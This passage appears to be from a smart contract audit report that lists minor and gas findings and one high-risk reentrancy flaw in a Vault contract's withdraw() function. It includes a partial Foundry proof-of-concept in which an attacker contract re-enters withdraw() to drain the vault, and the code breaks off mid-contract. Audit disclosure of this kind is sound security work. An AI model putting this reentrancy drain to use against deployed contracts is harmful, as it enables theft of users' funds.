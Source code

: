   ```
| [NC-01](#nc-01-title-of-qa-finding) | Inconsistent NatSpec comments. |
| [NC-02](#nc-02-another-qa-finding) | Unused named return variables. |

### Gas Optimizations
| ID | Title |
|:--|:--|
| [G-01](#g-01-title-of-gas-optimization) | Use `calldata` instead of `memory` for read-only function arguments. |
| [G-02](#g-02-another-gas-optimization) | Caching storage variables in memory can save SLOADs. |

---

## High Risk Findings

### <a id="h-01-title-of-high-risk-finding"></a>[H-01] Unchecked external call in `withdraw()` allows reentrancy and theft of funds

- **Relevant Files:** `src/Vault.sol`

#### Vulnerability Details
The `withdraw()` function in `Vault.sol` transfers Ether to the caller using a low-level `.call{value: amount}("")` before updating the user's balance. This follows the Checks-Effects-Interactions pattern incorrectly. An attacker can create a malicious contract with a `receive()` or `fallback()` function that re-enters the `withdraw()` function, allowing them to drain more funds than their balance permits.

#### Impact
This vulnerability allows a malicious actor to drain the entire Ether balance of the `Vault` contract. This is a direct and total loss of all user funds held in the contract.

#### Proof of Concept (PoC)
The following Foundry test demonstrates the exploit. An attacker contract deposits 1 ETH, then calls `withdraw()` and re-enters the function multiple times before the initial call completes, draining the contract.

```solidity
// File: test/Reentrancy.t.sol

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/Vault.sol";

contract Attacker {
    Vault public vault;
    uint256 public attackCount = 0;

    constructor(address _vault) {
        vault = Vault(_vault);
    }

    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

    receive() external payable {
        if (address(vault).balance > 0 && attackCount < 5) {
            attackCount++;
            vault.withdraw();
        }
    }
  ```